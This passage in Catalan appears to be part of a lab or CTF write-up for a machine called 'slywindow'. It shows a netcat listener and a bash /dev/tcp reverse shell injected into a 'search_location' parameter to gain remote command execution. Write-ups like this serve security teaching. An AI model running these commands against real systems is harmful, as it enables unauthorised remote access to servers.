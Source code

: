 ![RCE](../../../assets/images/slywindow/20250801_042548_image.png)

A la màquina atacant, obrim un listener amb netcat al port 447 a l'espera de la connexió inversa.

```bash
nc -lvnp 447
```

Generem una reverse shell amb la IP de la nostra màquina atacant, la codifiquem en URL i la injectem al paràmetre `search_location`, utilitzant la sintaxi adequada per aconseguir l'execució remota de comandaments.

```bash
bash -c 'bash -i >& /dev/tcp/10.0.2.7/447 0>&1'
```

Obtenim accés a una shell interactiva al servidor objectiu.

![](../../../assets/images/slywindow/20250801_043020_image.png)
